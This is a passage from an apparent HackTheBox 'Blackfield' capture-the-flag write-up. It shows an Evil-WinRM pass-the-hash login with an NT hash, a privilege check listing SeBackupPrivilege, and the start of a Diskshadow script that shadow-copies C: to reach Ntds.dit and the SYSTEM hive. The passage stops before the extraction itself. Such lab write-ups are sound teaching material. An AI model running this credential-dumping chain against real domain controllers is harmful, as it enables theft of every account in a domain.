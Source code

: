 We can simply test if these hashes are valid by passing the NT hash into Evil-WinRM. Only the svc_backup account is able to authenticate.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

We're in! And we also have both of the privileges needed for our Privilege Escalation that I detailed earlier. When a computer is a Domain Controller in an AD network, the local accounts are disabled, so we if want Admin access, we need the Ntds.dit file. Additionally, the key needed to decrypt this and actually extract information is located in the System hive (a group of keys, subkeys, and values located in the registry). However, because the Ntds is always in use, we cannot simply just make a backup of it. To start our attack process, we will create a dsh (Diskshadow script); the Diskshadow tool can create shadow files, which are like snapshots. For convenience and mitigation of potential errors, we will script out our commands. We will create a .dsh and input the following lines of code:

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# nano bruh.dsh

//in the file
set context persistent nowriters
add volume c: alias bruh
create
expose %bruh% d:

//Now encode the file to the correct format
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# unix2dos bruh.dsh
unix2dos: converting file bruh.dsh to DOS format...
```
